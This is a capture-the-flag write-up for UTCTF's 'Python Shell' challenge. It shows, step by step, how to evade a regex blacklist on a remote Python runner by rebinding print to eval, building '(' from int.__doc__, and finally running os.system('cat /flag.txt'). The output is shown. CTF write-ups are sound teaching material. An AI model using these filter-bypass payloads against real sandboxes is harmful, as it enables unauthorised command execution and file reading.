 # Python Shell 

## Task

Upload a Python file that can be run by invoking the python command, and we will run it for you. To do so, send the bytes over the stream, and close the write half. stdout will be sent back. For security reasons, we may refuse to run your file if we detect dangerous strings. There is a byte limit and a timeout.

nc misc.utctf.live 4353


## Solution

First you hat to create a connection and halfclose it. This is best done with `socat -t1 - TCP:misc.utctf.live:4353`.

So now to the payload. A simple `print('xxx')` returns xxx so far so good.

But if we just try to: `print(open('/flag.txt').read())` we get:

```
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.
Blacklist: (eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()
Whitelist: (\s*print\s*(?P<paren>\())
```


So we know what is prohibited: `eval|import|open|with|as|from|lambda|print = |` and what is that?
`(` open parentheses... ok thats "new"...


So to get around the forbidden `open` we could do something like:  `eval('op' + 'en'('flag.txt'))` but eval is forbidden as well.

`__builtins__.__dict__['ev' + 'al']`

Will solve that, so now to the `(` we can just replace that with int.__doc__[3].

`__builtins__.__dict__['ev' + 'al']`('print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))')`

So maybe something like that? But wait there is still a `(` at char(40) damn!

How to get rid of that? I didn't find a way to get rid of it directly, but there was mention of a "whitelist" before. `Whitelist: (\s*print\s*(?P<paren>\())`
For `print(` the `(` is ok, good to know!

Let's try

`p = 'print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))';  __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p + "")`


No answer... Debugging it locally gives me the flag, but via stderr since it throws an exception.

So I changed it the actual payload to: `os.system('cat /flag.txt')`

Resulting in:

```
echo "p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' + int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p)" > payload`
cat payload | socat -t1 - TCP:misc.utctf.live:4353
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.                                                                          utflag{unclean_input}
```



